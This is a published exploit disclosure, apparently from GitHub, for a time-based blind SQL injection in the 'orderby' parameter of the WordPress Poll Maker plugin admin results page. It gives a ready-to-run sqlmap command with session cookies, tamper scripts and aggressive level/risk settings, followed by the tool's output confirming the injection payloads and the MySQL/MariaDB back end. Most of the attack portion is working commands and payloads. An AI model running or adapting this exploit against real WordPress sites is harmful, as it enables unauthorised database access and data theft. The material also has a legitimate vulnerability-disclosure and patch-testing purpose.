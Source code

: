 ### Exploit Title: WordPress Poll Maker Plugin SQL Injection 
### Date: 2024-07-11
### Exploit Author: tmrswrr
### Category : Webapps
### Vendor: https://ays-pro.com/wordpress/poll-maker
### Version 5.3.2 , 5.3.3

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `Poll Maker`  > `Results` > https://localhost/wordpress/wp-admin/admin.php?page=poll-maker-ays-results&orderby=id&order=desc
     
3. Search for orderby parameter.

## SQLMAP COMMAND

```bash
python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=poll-maker-ays-results&orderby=id&order=desc" --cookie="wordpress_logged_in_55e28812cb0bc43705127d62a25df794=admin|1720624086|cQgkhpgoy0ZxhQSupSHRw7bo9mxcwEWyUp0VreNnZBK|d74e12a1cdecafc50c920c18d4711826598780dd360f3a637abcc68a6086f7a3; _wp_travel_engine_session=010869411d3c5e302ccf674d9a49d453||1720689253||1720688893; wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720860313|TGYBq5U4ro5vSY5QpssgjpPJi4EmsOJQqWjLKD77XaV|81237d448295de9d99b8560e6b6d9d8640f81c4dbb629e550e56860775baf0b3; wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720860313|TGYBq5U4ro5vSY5QpssgjpPJi4EmsOJQqWjLKD77XaV|d8d2e1da10a83ab054e39b8dfa5787c0dc2d586f364bcb584983b26efb857285; wordpress_test_cookie=WP Cookie check; wp-settings-1=editor=html; wp-settings-time-1=1720687513" --batch --dbms=mysql --threads=10 --no-cast --random-agent -v 3 --tamper="between,randomcase,space2comment" --level=5 --risk=3 

## RESULT

Parameter: orderby (GET)
    Type: time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: page=poll-maker-ays-results&orderby=id PROCEDURE ANALYSE(EXTRACTVALUE(3054,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x58655778))))),1)# wcUc&order=desc
    Vector: PROCEDURE ANALYSE(EXTRACTVALUE([RANDNUM],CONCAT('\',(IF(([INFERENCE]),BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]')),[RANDNUM])))),1)
---

---
[08:03:59] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[08:03:59] [INFO] the back-end DBMS is MySQL
[08:03:59] [PAYLOAD] id/**/PrOCEdUrE/**/analySE(exTRActvALuE(6707,CoNcAT(0x5c,(iF((VeRSION()/**/LikE/**/0x254d61726961444225),BenChmaRk(5000000,MD5(0x6e454541)),6707)))),1)#/**/ZrRh
[08:03:59] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[08:04:01] [DEBUG] used the default behavior, running in batch mode
web application technology: Apache 2.4.54, PHP 8.0.23
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```
<img alt="Result" src="https://raw.githubusercontent.com/capture0x/Poll-Maker-SQL-Injection/main/11.png">



